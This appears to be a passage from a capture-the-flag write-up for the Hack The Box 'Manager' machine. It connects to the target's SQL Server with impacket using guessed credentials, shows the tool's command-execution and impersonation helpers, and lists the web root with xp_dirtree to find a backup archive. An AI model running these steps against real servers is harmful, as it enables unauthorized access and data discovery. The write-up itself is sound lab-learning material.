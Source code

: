 We can connect to the SQL server using the `mssqlclient` from `impacket`. 

```sh
┌──(kali㉿kali)-[~/htb/windows]
└─$ impacket-mssqlclient -windows-auth -port 1433 -dc-ip 10.10.11.236 "manager.htb/operator:operator"@10.10.11.236
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database contNowext to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
    mask_query                 - mask query

```

By using `xp_dirtree`, we can list files. Going to the web server root directory, we have the following files:

```sh
SQL (MANAGER\Operator  guest@msdb)> xp_dirtree /inetpub/wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1
```